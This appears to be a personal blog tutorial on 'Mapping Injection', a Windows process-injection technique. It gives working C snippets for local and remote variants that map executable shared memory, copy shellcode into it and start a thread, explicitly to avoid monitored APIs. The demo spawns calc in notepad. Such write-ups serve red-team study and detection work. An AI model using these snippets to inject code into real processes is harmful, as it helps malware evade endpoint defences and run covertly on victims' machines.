


# Mapping Injection

## Theory

Mapping Injection is a technique of Process injection that avoids the use of common monitored Windows APIs like `VirtualAlloc` , `WriteProcessMemory` , `CreateRemoteThread` (Although I have used it here for demonstration purpose, there are a lot better alternatives). First we create a file mapping using the `CreateFileMapping` api and then use `MapViewOfFile` api to map that into our process'es address space and then use `memcpy` to copy the shellcode to that address and finally create a thread to run it. At the end, we can use `UnmapViewOfFile` to unmap the mapped view of file.

For doing the same in another Process, we can use `MapViewOfFile2` api (after mapping & copying the shellcode to our address) and specify a handle to the remote process. The important thing here is that the handle should have `PROCESS_VM_OPERATION` access.

## Local Mapping Injection

Okay so as we know the very first thing is to create the file mapping. We can use `CreateFileMappingW` to do so. We have to give `INVALID_HANDLE_VALUE` if we want to have a page file with custom size.

<figure><figcaption></figcaption></figure>

```c
hFileObj = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, szCode, NULL);
```

Then we can map it using `MapViewOfFile`. As stated in MSDN

> To have a file with executable permissions, an application must call [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga) with either PAGE\_EXECUTE\_READWRITE or PAGE\_EXECUTE\_READ, and then call MapViewOfFile with FILE\_MAP\_EXECUTE | FILE\_MAP\_WRITE or FILE\_MAP\_EXECUTE | FILE\_MAP\_READ.

```c
pMap = MapViewOfFile(hFileObj, FILE_MAP_EXECUTE | FILE_MAP_WRITE, NULL, NULL, szCode);
```

Finally we can just copy the shellcode to that address and create a thread to run our shellcode.

```c
memcpy(pMap, shellcode, szCode);
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMap, 0, 0, NULL);
WaitForSingleObject(GetCurrentProcess(), 2000);
```

<figure><figcaption></figcaption></figure>

## Remote Mapping Injection

For Remote Mapping, we still have to first create the mapping locally and copy the shellcode to the address. This is done in order to avoid using functions like `WriteProcessMemory`. Another approach would be to map the file remotely first but then we might have to use ^ for writing shellcode to that address since it is not in our process. Thus, after we have copied the shellcode to our map view, we can just map the same file to the remote process and create a remote thread which will run it.

<pre class="language-c"><code class="lang-c">hProcess = OpenProcess(PROCESS_VM_OPERATION, FALSE, pid); 
hFileMap = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, szCode, NULL);
pMapLocal = MapViewOfFile(hFileMap, FILE_MAP_WRITE, 0, 0, szCode);
memcpy(pMapLocal, shellcode, szCode);
// note that MapViewOfFile2 requires you to link onecore.lib
pMapRemote = MapViewOfFile2(hFileMap, hProcess, NULL, NULL, szCode, NULL, PAGE_EXECUTE_READWRITE);
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pMapRemote, NULL, 0, NULL);
<strong>WaitForSingleObject(hThread, 5000);
</strong></code></pre>

All in all this is what we are doing, as I mentioned earlier, I have used `CreateRemoteThread` just for demonstration, and actually there are various other methods to execute the code. We can see calc spawning when I run it against notepad.

<figure><figcaption></figcaption></figure>

That's it for now, there's also some other variations to this technique which I want to cover, I'll do those next time. If you liked it, pls do let me know on [twitter](https://x.com/ZzN1NJ4). Thank you.

